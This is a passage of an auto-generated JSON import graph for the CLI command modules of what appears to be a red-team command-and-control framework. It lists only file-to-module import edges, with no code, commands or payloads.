"core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/anti_forensics.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/anti_forensics.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/applocker_bypass.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/applocker_bypass.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/applocker_bypass.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/applocker_bypass.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/applocker_bypass.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/audit.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/audit.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/audit.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/audit.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/audit.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/audit.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/audit.py", "target": "cli.cli_enhancements"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/audit.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/automation.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/automation.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/automation.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/automation.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/automation.py", "target": "modules.categories"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/automation.py", "target": "modules.credential_reuse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/automation.py", "target": "modules.state_manager"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/automation.py", "target": "modules.credential_reuse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/automation.py", "target": "modules.conditional_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/automation.py", "target": "modules.conditional_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/automation.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/automation.py", "target": "modules.conditional_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/automation.py", "target": "modules.conditional_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/automation.py", "target": "modules.conditional_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/automation.py", "target": "modules.operator_profiles"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/automation.py", "target": "modules.operator_profiles"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/automation.py", "target": "modules.operator_profiles"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/automation.py", "target": "modules.operator_profiles"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bitm.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bitm.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bitm.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bitm.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bitm.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bitm.py", "target": "modules.bitm_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bitm.py", "target": "modules.bitm_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bitm.py", "target": "modules.bitm_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bitm.py", "target": "modules.bitm_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bitm.py", "target": "modules.bitm_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bitm.py", "target": "modules.bitm_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bitm.py", "target": "modules.bitm_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bof_registry.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bof_registry.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bof_registry.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bof_registry.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bof_registry.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bof_registry.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bof_registry.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bof_registry.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bof_registry.py", "target": "ssl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bof_registry.py", "target": "urllib.error"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bof_registry.py", "target": "urllib.parse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bof_registry.py", "target": "urllib.request"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bof_registry.py", "target": "modules.bof_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bof_registry.py", "target": "modules.bof_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bof_registry.py", "target": "modules.bof_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bof_registry.py", "target": "modules.beacon_config_builder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bof_registry.py", "target": "modules.bof_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bof_registry.py", "target": "modules.bof_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bof_registry.py", "target": "modules.bof_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/bof_registry.py", "target": "modules.bof_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/c2_profile.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/c2_profile.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/c2_profile.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/c2_profile.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/c2_profile.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/c2_profile.py", "target": "modules.c2_profile_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/c2_profile.py", "target": "modules.c2_profile_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/c2_profile.py", "target": "modules.c2_profile_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/c2_profile.py", "target": "modules.c2_profile_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/caldera.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/caldera.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/caldera.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/caldera.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/caldera.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/caldera.py", "target": "modules.operation"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/caldera.py", "target": "modules.planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/caldera.py", "target": "modules.ttp_coverage"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/caldera.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/caldera.py", "target": "modules.playbook_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/campaign.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/campaign.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/campaign.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/campaign.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/campaign.py", "target": "zipfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/campaign.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/campaign.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/campaign.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/campaign.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/campaign.py", "target": "core.safe_import"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/campaign.py", "target": "modules.db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/campaign.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/campaign.py", "target": "sqlite3"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/catalog.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/catalog.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/catalog.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/catalog.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/catalog.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/catalog.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/catalog.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cicd.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cicd.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cicd.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cicd.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cicd.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cicd.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cicd.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cicd.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cicd.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cicd.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cicd.py", "target": "modules.cicd_enumerator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cicd.py", "target": "modules.cicd_enumerator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cicd.py", "target": "modules.mfa_bypass"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cli_auth.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cli_auth.py", "target": "getpass"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cli_auth.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cli_auth.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cli_auth.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cli_auth.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cli_auth.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cli_auth.py", "target": "modules.cli_auth"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cli_auth.py", "target": "modules.cli_auth"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cli_auth.py", "target": "modules.cli_auth"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cli_auth.py", "target": "modules.cli_auth"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cli_auth.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cli_auth.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cloud.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cloud.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cloud.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cloud.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cloud.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cloud.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cloud.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cloud.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cloud.py", "target": "modules.cloud_enum"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cloud.py", "target": "modules.lazycloud"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cloud.py", "target": "cli.confirm"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cloud.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cloud.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cloud.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cloud_attacks.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cloud_attacks.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cloud_attacks.py", "target": "modules.entra_id_attacks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cloud_attacks.py", "target": "modules.aws_attacks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cloud_attacks.py", "target": "modules.gcp_attacks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cloud_attacks.py", "target": "modules.k8s_attacks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cloud_attacks.py", "target": "modules.cross_cloud"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cloud_attacks.py", "target": "modules.saas_attacks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/collaboration.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/collaboration.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/collaboration.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/collaboration.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/collaboration.py", "target": "modules.collab_bp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/collaboration.py", "target": "modules.collab_bp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/collaboration.py", "target": "modules.db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/collaboration.py", "target": "modules.collab_bp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control_migrated.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control_migrated.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control_migrated.py", "target": "cli.assign"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control_migrated.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control_migrated.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control_migrated.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control_migrated.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control_migrated.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control_migrated.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control_migrated.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control_migrated.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control_migrated.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control_migrated.py", "target": "cli.aliases"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control_migrated.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control_migrated.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control_migrated.py", "target": "modules.c2_builder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control_migrated.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control_migrated.py", "target": "modules.listener_manager"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control_migrated.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control_migrated.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control_migrated.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control_migrated.py", "target": "modules.apt_playbooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control_migrated.py", "target": "fnmatch"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control_migrated.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control_migrated.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/command_and_control_migrated.py", "target": "fnmatch"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/containers.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/containers.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/containers.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/containers.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/containers.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/containers.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/containers.py", "target": "modules.lazyk8s"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/containers.py", "target": "modules.lazyk8s"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/containers.py", "target": "modules.lazyk8s"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/containers.py", "target": "modules.lazyk8s"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/containers.py", "target": "modules.lazyk8s"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/containers.py", "target": "modules.lazyk8s"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cred.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cred.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cred.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cred.py", "target": "modules.categories"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cred.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cred_migrated.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cred_migrated.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cred_migrated.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cred_migrated.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cred_migrated.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cred_migrated.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cred_migrated.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cred_migrated.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cred_migrated.py", "target": "core.defaults"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cred_migrated.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cred_migrated.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cred_migrated.py", "target": "itertools"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/cred_migrated.py", "target": "pykeepass"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/crystal_ball.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/crystal_ball.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/crystal_ball.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/crystal_ball.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/crystal_ball.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/crystal_ball.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/crystal_ball.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/crystal_ball.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/crystal_ball.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/crystal_ball.py", "target": "modules.privesc_predictor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/crystal_ball.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/daemon_ctl.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/daemon_ctl.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/daemon_ctl.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/daemon_ctl.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/daemon_ctl.py", "target": "skills.daemon_control"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/daemon_ctl.py", "target": "skills.daemon_control"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/daemon_ctl.py", "target": "skills.daemon_control"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/daemon_ctl.py", "target": "skills.daemon_control"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/daemon_ctl.py", "target": "skills.daemon_control"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/daemon_ctl.py", "target": "skills.daemon_control"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/daemon_ctl.py", "target": "skills.daemon_control"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/daemon_ctl.py", "target": "skills.daemon_control"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/daemon_ctl.py", "target": "modules.goals"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/daemon_ctl.py", "target": "modules.intercept"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/daemon_ctl.py", "target": "skills.daemon_control"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/database.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/database.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/database.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/database.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/database.py", "target": "modules.db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/database.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/database.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/database.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/database.py", "target": "modules.finding_lifecycle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/database.py", "target": "modules.finding_lifecycle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/database.py", "target": "modules.finding_lifecycle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/database.py", "target": "modules.finding_lifecycle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/database.py", "target": "skills.autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/defaults.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/defaults.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/defaults.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/defaults.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/defaults.py", "target": "cli.assign"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/defaults.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/defaults.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/defaults.py", "target": "core.defaults"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/defaults.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/demo.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/demo.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/demo.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/demo.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/diagnostics.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/diagnostics.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/diagnostics.py", "target": "platform"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/diagnostics.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/diagnostics.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/diagnostics.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/dns_exfil.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/dns_exfil.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/dns_exfil.py", "target": "gzip"}, {"confidence": "EXTRACTED", "relation": "imports", "source": 